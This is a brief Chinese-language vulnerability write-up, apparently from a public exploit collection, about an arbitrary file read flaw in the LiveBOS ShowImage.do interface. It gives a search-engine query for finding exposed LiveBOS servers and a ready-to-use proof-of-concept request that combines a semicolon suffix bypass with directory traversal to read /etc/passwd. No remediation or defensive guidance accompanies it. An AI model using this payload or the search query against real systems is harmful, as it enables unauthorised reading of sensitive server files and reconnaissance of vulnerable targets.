

# LiveBOS ShowImage.do 任意文件读取漏洞

## 漏洞描述

LiveBOS ShowImage.do 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件

## 漏洞影响

LiveBOS

## 网络测绘

```
app="LiveBOS-框架"
```

## 漏洞复现

登陆页面


验证POC

```
/feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../../../../etc/passwd
```

